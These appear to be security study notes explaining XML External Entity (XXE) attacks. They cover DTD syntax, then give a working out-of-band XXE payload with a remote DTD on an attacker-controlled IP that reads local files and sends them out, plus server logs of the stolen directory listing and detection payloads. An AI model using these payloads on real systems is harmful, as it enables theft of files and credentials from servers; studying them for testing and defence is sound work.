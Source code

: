 #### 1.1. Intro

- web applications that parse XML must disable the processing of external entities

- external XML entities (XXE) can instruct the parser to perform other actions than indented by design, such as:
  - retrieval of local files
  - processing of remote DTD (`<!DOCTYPE` definition) form HTTP/FTP

- XXE allows an attacker to exfiltrate sensitive information from the system (private SSL/SSH keys, source-code, configuration files, credentials)

- this attack can use the same exploitation vectors as SSRF
  - `file://`, `http://`, `https://`, `ftp://`

- it is possible that some frameworks will automatically parse XML (w/ `Content-Type: text/xml` or `Content-Type: application/xml`)


#### 1.2. About DTD

The Document Type Definition (DTD) enforces the types of elements and attributes for an XML document to be valid.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE person SYSTEM "person.dtd">
<person>
  <firstname>Thomas</firstname>
  <lastname>Jefferson</lastname>
</person>
```

And `person.dtd`:
```xml
<!DOCTYPE person
[
  <!ELEMENT person (firstname,lastname)>
  <!ELEMENT firstname (#PCDATA)>
  <!ELEMENT lastname (#PCDATA)>
]>
```

The `person.dtd` enforces the XML structure as follows:

`<!DOCTYPE person` - root element must be `person`
`<!ELEMENT person (firstname,lastname)>` - `person` element must contain `firstname` and `lastname` elements
`<!ELEMENT firstname (#PCDATA)>` - parseable character data
`<!ELEMENT lastname (#PCDATA)>` - parseable character data

Example with internal DTD declaration:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY entity_b "test2">
]>
<data>
  <a>test1</a>
  <b>&entity_b;</b>
</data>
```
When the XML is parsed the `<b>` element will appear as `<b>test2</b>` as a result of the local `entity_b` declaration (`<!ENTITY entity_b "test2">`) and usage (`<b>&entity_b;</b>`).

Local entity declaration:
```xml
<!ENTITY entity-name "entity-value">
```

Remote entity declaration:
```xml
<!ENTITY entity-name SYSTEM "URI/URL">
```


#### 1.3. XXE in action

Request contains XML with external DTD:
```
POST /login HTTP/1.1
Content-Type: text/xml
[FORMATTING CUT]

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://172.16.201.160:8888/dtd">
<x>&trigger;</x>
```

On remote server `data` DTD file:

```
<!ENTITY % f SYSTEM "file:///">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://172.16.201.160:8888/?%f;'>">
%all;
```
Note: 
- `python -m SimpleHTTPServer 8888` to serve this file
- once loaded, the parser will process all the entities specified in the DTD
- the DTD declares two external entities
  - `<!ENTITY % f` - will engage the `file:///` URI handler to read the contents of `/` root system directory
  - `<!ENTITY % all` - declares another entity (`trigger`) that exfiltrates the data loaded in `% f` 
  - `%all;` triggers the chained `all` and `f` entities
- the `trigger` entity is called in the user-request via `<x>&trigger;</x>`


HTTP logs:
```
172.16.201.246 - - [05/Dec/2018 04:54:27] "GET /dtd HTTP/1.1" 200 -
172.16.201.246 - - [05/Dec/2018 04:54:27] "GET /?bin%0Aboot%0Adev%0Aetc%0Ahome%0Ainit%0Alib%0Alinuxrc%0Amnt%0Aopt%0Aproc%0Aroot%0Arun%0Asbin%0Asys%0Atmp%0Ausr%0Avar%0A HTTP/1.1" 200 -
```


#### 1.4. Detection

The following payloads will only attempt to make an HTTP request to a remote server (similar to SSRF).

Payload 1 - call remote server from DTD:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
	<!ENTITY call SYSTEM "http://172.16.201.160:8888/TEST">
]>
<test>&call;</test>
```

Payload 2 - call remote server to fetch DTD (and call `go` entity inside the remote DTD once loaded):
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://172.16.201.160:8888/TEST">
<data>&go;</data>
```
